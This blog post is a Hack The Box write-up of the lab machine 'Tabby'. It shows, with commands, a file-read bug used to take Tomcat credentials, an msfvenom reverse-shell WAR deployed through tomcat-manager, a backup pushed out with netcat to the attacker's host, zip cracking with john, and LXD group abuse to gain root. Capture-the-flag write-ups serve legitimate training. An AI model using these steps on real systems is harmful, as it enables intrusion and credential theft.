 ```yaml
---
layout: single
title: "Hack The Box Write-up #5 : Tabby"
excerpt: "Writeup for Tabby, a machine provided by HacktheBox."
date: 2020-11-08
header:
  tagline: "Writeup for Tabby , a machine provided by HacktheBox."
  overlay_image: /assets/images/background.jpg
  overlay_filter: 0.5
  teaser: /assets/images/tabby-writeup/tabby.png
  
categories:
  - hackthebox
tags:  
  - linux
  - cve
  - tomcat
---
```


![card](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/tabby-writeup/tabby.png)

## Summary
Tabby is an interesting easy box provided by hackthebox where We are represented with a file read vulnerability which we abuse to gain access into the tomcat manager.
Using a classic exploit method , we are able to grab a low privileged shell.
Cracking a zip file leads us to the user password which is part of the ``lxd`` group , thus we can abuse it to gain a system shell.

## Enumeration

### nmap
As always we start by doing a nmap scan against the host :

```sh
root@kali:/home/pi0x73# nmap -sC -sV -T4 10.10.10.194
Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-08 14:50 CET
Nmap scan report for 10.10.10.194
Host is up (0.087s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 45:3c:34:14:35:56:23:95:d6:83:4e:26:de:c6:5b:d9 (RSA)
|   256 89:79:3a:9c:88:b0:5c:ce:4b:79:b1:02:23:4b:44:a6 (ECDSA)
|_  256 1e:e7:b9:55:dd:25:8f:72:56:e8:8e:65:d5:19:b0:8d (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.44 seconds
```

Some interesting information can be collected through the nmap scan where we see **Tomcat Apache** running on port 8080 , a web page on port 80 and a domain : **megahosting.htb**

First thing, I am going to add the domain to the hosts file and procced through the web page.

### Webpage

Procceding through the webpage, we are represented with a hosting platform service :

![web](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/tabby-writeup/tabby-web.png)

Nothing much interesting till here , but after I while clicking around I saw an interesting piece of code in the page source : 

```html
<li><a href="#pricing">Infrastructure</a></li>
<li><a href="http://megahosting.htb/news.php?file=statement">News</a></li>
<li><a href="#about">About</a></li>
<li><a href="#callus">Support</a></li>
```

### File Read

It seems like all of the buttons redirect to nowhere but news button has an interesting link attached. 
A php page that calls files from system and shows them on the webpage so I though it was possible that we could achieve File Read from the remote host.

![lfi](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/tabby-writeup/lfi.png)

Obviously the File Read injection was successful and I was able to read files from the system through this vulnerability. 

This could be a lot useful at the moment since we also noticed apache tomcat running on port 8080 , so I started looking around for the ``tomcat-users.xml`` file which holds the credentials configured for the administration panel.

To make the searching easier I installed **tomcat9** on my attacker machine to see where it saves the config files.

![tomcat9](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/tabby-writeup/tomcat9.png)

Using those paths I was able to retrieve the config file from the remote system : 

```xml
  <role rolename="tomcat"/>
  <role rolename="role1"/>
  <user username="tomcat" password="<must-be-changed>" roles="tomcat"/>
  <user username="both" password="<must-be-changed>" roles="tomcat,role1"/>
  <user username="role1" password="<must-be-changed>" roles="role1"/>

   <role rolename="admin-gui"/>
   <role rolename="manager-script"/>
   <user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
</tomcat-users>
```

We can easily see the credentials for tomcat running on 8080.

However while trying to connect with the given credentials on [http://10.10.10.194:8080/manager](http://10.10.10.194:8080/manager) I noticed that the I could not access the GUI panel, so I started googling about possible other ways.

After some time I came up with an interesting pip module : **tomcat-manager**, 
which could help me use the panel through CLI .

![tomcatmgr](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/tabby-writeup/tomcatmgr.png)

I found this module very helpful because not only I was able to connect to the tomcat manager service but I could also upload files through it.

### tomcat shell

So quickly create a payload using msfvenom and drop it to the web service using *tomcatmanager* :

```console
root@kali:~# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.15.30 LPORT=9001 -f war > shell.war
Payload size: 1090 bytes
Final size of war file: 1090 bytes

root@kali:~# tomcat-manager
tomcat-manager> connect http://10.10.10.194:8080/manager tomcat "$3cureP4s5w0rd123!"
--connected to http://10.10.10.194:8080/manager as tomcat
tomcat-manager> deploy local shell.war /zdf
tomcat-manager>
```
With the payload already uploaded to the web server , what's left to do is to navigate on [http://10.10.10.194:8080/zdf](http://10.10.10.194:8080/zdf) in my case to triger the payload and recieve a reverse shell to my machine : 

![tomcat-shell](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/tabby-writeup/tomcat-shell.png)

## Leveraging Privileges

Upon enumerating inside the box I saw something interesting under ``/var/www/html/files`` : 

![backups](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/tabby-writeup/backups.png)

I copied this zip backup to my machine to view it contents :

```console
tomcat@tabby:/var/www/html/files$ nc 10.10.15.30 9002 < *.zip


root@kali:~# nc -lvp 9002 > *.zip
Listening on 0.0.0.0 9002
Connection received on megahosting.htb 35208
```

However I wasnt able to view anything because the zip backup was password protected. 

### Cracking the zipfile

In order to unlock it I used **zip2john** to convert the archive into a crackable hash and then give it to john to crack.

```sh
root@kali:~# zip2john backup.zip
backup.zip/var/www/html/assets/ is not encrypted!
ver 1.0 backup.zip/var/www/html/assets/ is not encrypted, or stored with non-handled compression type
ver 2.0 efh 5455 efh 7875 backup.zip/var/www/html/favicon.ico PKZIP Encr: 2b chk, TS_chk, cmplen=338, decmplen=766, crc=282B6DE2
ver 1.0 backup.zip/var/www/html/files/ is not encrypted, or stored with non-handled compression type
ver 2.0 efh 5455 efh 7875 backup.zip/var/www/html/index.php PKZIP Encr: 2b chk, TS_chk, cmplen=3255, decmplen=14793, crc=285CC4D6
ver 1.0 efh 5455 efh 7875 backup.zip/var/www/html/logo.png PKZIP Encr: 2b chk, TS_chk, cmplen=2906, decmplen=2894, crc=2F9F45F
ver 2.0 efh 5455 efh 7875 backup.zip/var/www/html/news.php PKZIP Encr: 2b chk, TS_chk, cmplen=114, decmplen=123, crc=5C67F19E
ver 2.0 efh 5455 efh 7875 backup.zip/var/www/html/Readme.txt PKZIP Encr: 2b chk, TS_chk, cmplen=805, decmplen=1574, crc=32DB9CE3
backup.zip:$pkzip2$3*2*1*0*0*24*02f9*5d46*ccf7b799809a3d3c12abb83063af3c6dd538521379c8d744cd195945926884341a9c4f74*1*0*8*24*285c*5935*f422c178c96c8537b1297ae19ab6b91f497252d0a4efe86b3264ee48b099ed6dd54811ff*2*0*72*7b*5c67f19e*1b1f*4f*8*72*5c67*5a7a*ca5fafc4738500a9b5a41c17d7ee193634e3f8e483b6795e898581d0fe5198d16fe5332ea7d4a299e95ebfff6b9f955427563773b68eaee312d2bb841eecd6b9cc70a7597226c7a8724b0fcd43e4d0183f0ad47c14bf0268c1113ff57e11fc2e74d72a8d30f3590adc3393dddac6dcb11bfd*$/pkzip2$::backup.zip:var/www/html/news.php, var/www/html/logo.png, var/www/html/index.php:backup.zip
NOTE: It is assumed that all files in each archive have the same password.
If that is not the case, the hash may be uncrackable. To avoid this, use
option -o to pick a file at a time.

root@kali:~# john backupfile.hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
admin@it         (backup.zip)
1g 0:00:00:01 DONE (2020-11-08 15:49) 0.6849g/s 7097Kp/s 7097Kc/s 7097KC/s adnc153..adenabuck
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

There was nothing useful inside the zip backup but I noticed that user **ash** uses the same password as zip :

![sudo](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/tabby-writeup/sudo.png)

## Privesc to root

Now as seen above , while using ``id`` command, it pulls out interesting information where ``ash`` is a memeber of **lxd** group.

Members from this group can create and start containers to the machine.
To sumarize that I am able to create a container , start it and then mount the machine filesystem to it.

### Abusing LXD Privileges

I downloaded **alpine** image to the machine which is a preconfigured container and initialized it :

![lxd](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/tabby-writeup/lxd.png)

This way I can now exeucute ``/bin/bash`` to the container and navigate to the filesystem to read the flag :

```sh
ash@tabby:~$ lxc exec ignite /bin/sh
~ # id
uid=0(root) gid=0(root)
~ # cd /mnt/root/root
cd /mnt/root/root
/mnt/root/root # wc -c root.txt
wc -c root.txt
33 root.txt
```

